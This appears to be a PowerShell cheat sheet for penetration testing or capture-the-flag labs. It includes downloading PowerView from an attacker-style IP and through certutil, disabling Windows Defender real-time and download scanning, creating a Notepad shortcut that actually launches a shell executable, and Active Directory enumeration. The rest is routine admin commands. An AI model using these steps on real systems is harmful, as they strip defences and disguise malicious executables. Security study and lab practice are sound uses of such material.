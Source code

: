 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

Disable AV
```powershell
# Disable Windows Defender real time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows Defender scanning for all files downloaded
Set-MpPreference -DisableIOAVProtection $true
```

List Network Connections
```powershell
netstat -aon

arp -a
```

Connect to a machine with admin perms
```
Enter-PSSession -Computername <computername>
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

Active Directory
```
Get-ADDomain

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```